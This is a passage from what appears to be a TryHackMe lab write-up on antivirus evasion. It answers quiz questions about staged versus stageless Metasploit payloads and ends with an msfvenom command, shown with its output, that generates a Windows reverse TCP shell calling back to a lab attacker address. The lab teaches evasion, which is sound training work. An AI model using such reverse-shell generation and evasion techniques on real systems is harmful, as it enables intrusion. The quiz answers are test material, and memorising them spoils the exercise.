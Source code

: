 No, it will be downloaded by a stager :

    1. "Small footprint on disk. Since stage0 is only in charge of downloading the final shellcode, it will most likely be small in size.
    2. The final shellcode isn't embedded into the executable. If your payload is captured, the Blue Team will only have access to the stage0 stub and nothing more."

Answer : nay 

### Is the Metasploit payload windows/x64/meterpreter_reverse_https a staged payload? (yea/nay) 

![Stageless Payload](/images/thm/avevasionshellcode/avevasionshellcode_10.png)
_Stageless Payload_

Answer : nay

### Is the stage0 of a staged payload in charge of downloading the final payload to be executed? (yea/nay)

From question 1 of this task : 

 "Small footprint on disk. Since stage0 is only in charge of downloading the final shellcode, it will most likely be small in size."

Answer : yea 

### Follow the instructions to create a staged payload and upload it into the THM Antivirus Check at http://10.10.229.83/

On our attacker machine, let's first generate our reverse shell with msfvenom : 

```console
root@ip-10-10-8-119:~/Desktop# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.8.119 LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=7, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor chosen with final size 503
Payload size: 503 bytes
Saved as: shellcode.bin
root@ip-10-10-8-119:~/Desktop# ls
'Additional Tools'   mozo-made-15.desktop   shellcode.bin   Tools
```
{: .nolineno }
